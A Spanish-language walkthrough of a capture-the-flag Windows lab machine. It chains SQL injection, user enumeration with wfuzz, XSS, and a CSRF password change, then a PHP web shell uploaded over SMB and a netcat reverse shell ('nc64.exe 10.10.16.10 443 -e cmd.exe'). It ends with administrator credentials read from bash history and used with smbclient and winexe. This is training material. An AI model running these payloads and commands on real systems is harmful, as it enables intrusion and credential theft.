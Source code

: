Haremos el reconocimiento con nmap como siempre, donde encontramos el puerto 80, 445 y 8808:
![[Pasted image 20230210125701.png]]
Como vemos que tiene abierto el puerto 445 y es una máquina Windows, podemos inspeccionarlo con crackmapexec y vemos que se trata de un Windows 10 Enterprise: [[Crackmapexec#Detectar dominio y hostname con crackmapexec]]
![[Pasted image 20230210125936.png]]
Y ahora con smbclient probamos en listar recursos compartidos haciendo uso de un null session, pero no encuentra nada:
![[Pasted image 20230210130019.png]]
En cuanto al puerto 80, vamos a ver con whatweb las características de la web:
![[Pasted image 20230210130914.png]]
Ahora vamos a acceder a la web:
![[Pasted image 20230210131345.png]]
Y si probamos en registrarnos como el usuario 'or 1=1-- - veremos que esta web es vulnerable a una SQL injection:
![[Pasted image 20230213120456.png]]
Iniciamos sesión con el usuario 'or 1=1-- - y accedemos a todas las notas:
![[Pasted image 20230213120525.png]]
Pero vamos a hacerlo de otra forma para aprender, ya que también podemos hacer un ataque de diccionario con wfuzz para probar muchos posibles usuarios dentro de un panel de login, por ejemplo en una web donde si pongo un usuario, me dice si existe o no en el sistema como en este caso:
![[Pasted image 20230210132724.png]]
Por tanto yo puedo probar con muchos usuarios a ver si en alguno me dice que sí existe este usuario, por lo que primero obtendremos el diccionario donde figuran muchos posibles usuarios:
![[Pasted image 20230210132919.png]]
Por tanto utilizando este diccionario, con WFUZZ podemos hacer estas comprobación de esta forma:[[WFUZZ]]
![[Pasted image 20230210133127.png]]
Pero así lo que ocurre es que me muestra cada uno de los intentos:
![[Pasted image 20230210133435.png]]
Por lo que con wfuzz, podemos decir que siempre y cuando el mensaje de error de la web sea el mismo, que no lo muestre; y que sólo nos muestre el usuario que genera un mensaje diferente en la web; usando el parámetro --hs: [[WFUZZ#FUERZA BRUTA PANEL DE LOGIN CON WFUZZ]]
![[Pasted image 20230210133523.png]]
Y nos encuentra el usuario Tyler:
![[Pasted image 20230210133537.png]]
Y ahora si probamos en poner el usuario Tyler vemos que nos muestra que sí existe:
![[Pasted image 20230210133919.png]]
No obstante en esta web vamos a probar en registrarnos y en acceder:
![[Pasted image 20230210134040.png]]
Por tanto vamos a probar en crear una nota:
![[Pasted image 20230210134124.png]]
Y al crear la nota vamos a probar en ver si esta web es vulnerable a cross site scripting (XSS):
![[Pasted image 20230210134212.png]]
Y vemos que al guardar la nota se nos genera una ventana, indicando que esta web es vulnerable a XSS ya que nos ejecutó el código que inyectamos:
![[Pasted image 20230210134249.png]]
También podríamos verlo con una etiqueta HTML:
![[Pasted image 20230210134348.png]]
![[Pasted image 20230210134358.png]]
En este punto lo que podemos hacer es cambiar la contraseña del usuario Tyler aprovechándonos de la vulnerabilidad CSRF (Cross-site request forgery); y para ello debemos ver cómo se tramita la petición donde se puede cambiar la contraseña, por lo que vamos al menú de cambiar contraseña:
![[Pasted image 20230213120811.png]]
![[Pasted image 20230213103425.png]]
Interceptamos este cambio de contraseña con burp suite para ver cómo se tramita la petición:
![[Pasted image 20230213103456.png]]
Y para poder ver la petición donde cambiamos la contraseña en texto plano, cambiaremos esta petición a GET:
![[Pasted image 20230213103536.png]]
Y ahora ya vemos la petición con las credenciales:
![[Pasted image 20230213103612.png]]
Enviamos la petición dentro de la barra de navegación y vemos que se cambia la contraseña de nuestro usuario
![[Pasted image 20230213103933.png]]
![[Pasted image 20230213103840.png]]
Por tanto vemos que esta dirección es la que cambia una contraseña:
![[Pasted image 20230213103809.png]]
Llegados a este punto, si conseguimos que el usuario Tyler ejecute esta dirección, podremos cambiarle su contraseña, por lo que lo haremos dentro de la parte de contact us:
![[Pasted image 20230213104030.png]]
![[Pasted image 20230213104101.png]]
Y ahora si el usuario Tyler le hubiera hecho clic en ese enlace, se le habría cambiado su contraseña por la de 123123, por tanto vamos a probar en iniciar sesión con el usuario Tyler y con esta credencial, donde veremos que ha funcionado:
![[Pasted image 20230213104225.png]]
![[Pasted image 20230213104236.png]]
Y en esta parte vemos una contraseña:
![[Pasted image 20230213104422.png]]
Ya tenemos el usuario Tyler y la contraseña, por lo que vamos a validar que sean correctas con crakmapexec:
![[Pasted image 20230213104729.png]]
Y con smbmap veremos los recursos compartidos a nivel de red:
![[Pasted image 20230213104857.png]]
No obstante, con smbclient también podemos acceder al interior de un recurso compartido, por ejemplo de new-site, donde tenemos permisos de lectura y escritura: [[SMBclient#EJECUTAR COMANDOS CON SMBCLIENT]]
```bash
smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
```
![[Pasted image 20230213105508.png]]
Y en este recurso compartido vamos primero a subir un código php malicioso, ya que la máquina vemos que funciona con php:[[0 - Consideraciones Previas#Código PHP malicioso para ganar Reverse Shell]]
![[Pasted image 20230213110730.png]]
![[Pasted image 20230213110749.png]]
Y ahora, dentro del puerto 8808, donde vemos que funciona con IIS (ya que lo vimos en el reporte de nmap), podemos intuir que si por este puerto intentamos acceder al cmd de php que acabamos de subir, tendremos ejecución remota de comandos:
![[Pasted image 20230213111331.png]]
Ahora vamos a compartir el binario de netcat y nos ganamos la reverse shell:
![[Pasted image 20230213111746.png]]
Y ahora con burpsuite podemos urlencodear el comando curl para que se baje el binario de netcat:
![[Pasted image 20230213111951.png]]
![[Pasted image 20230213112004.png]]
Compartimos el nv64.exe con la víctima:
![[Pasted image 20240127100712.png]]
Ahora que está todo listo, nos ponemos en escucha con netcat:
![[Pasted image 20230213112057.png]]
Y desde el navegador, ejecutamos el comando donde llamamos al binario de netcat y nos enviamos la reverse shell por el puerto 443:
```bash
http://10.10.10.97:8808/cmd.php?cmd=nc64.exe 10.10.16.10 443 -e cmd.exe
```
![[Pasted image 20230213112411.png]]
![[Pasted image 20240127100930.png]]
Y dentro del directorio de Tyler ya encontramos la flag de user.txt:
![[Pasted image 20230213112544.png]]
Y dentro de la carpeta de Tyler vemos un acceso directo a un bash:
![[Pasted image 20230213112921.png]]
Si hacemos un type para ver el contenido del fichero, vemos algo de bash.exe:
![[Pasted image 20240127101027.png]]
Pero dentro de esto, nos encontramos con una ruta donde se encuentra un ejecutable de bash.exe, lo que nos hace pensar que en este sistema corre un subsistema de linux:
![[Pasted image 20230213113425.png]]
Por tanto vamos a ejecutar esto y nos devuelve una consola de Linux como root:
![[Pasted image 20240127101121.png]]
Adquirimos un prompt:
![[Pasted image 20230213113543.png]]
En este subsistema, nos encontramos con el histórico de bash con el archivo .bash_history:
![[Pasted image 20230213113804.png]]
Por lo que vamos a inspeccionarlo para ver los comandos que se ejecutaron en esta parte, donde nos encontramos con las credenciales del usuario administrador:
![[Pasted image 20240127101157.png]]
Por tanto ahora ejecutamos ese comando de smbclient con las credenciales del usuario administrador:
```bash
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```
![[Pasted image 20240127101241.png]]
Y vamos al directorio del usuario Administrator y descargamos la flag de root con el comando get root.txt:
![[Pasted image 20240127101406.png]]
Y ahora en nuestra máquina local ya tenemos la flag de root:
![[Pasted image 20240127101327.png]]
Y ahora si queremos entrar dentro de la máquina usando una shell, tenemos que usar winexe, pudiéndonos conectar a la máquina víctima mediante SMB:
```bash
winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe
```
![[Pasted image 20240127102015.png]]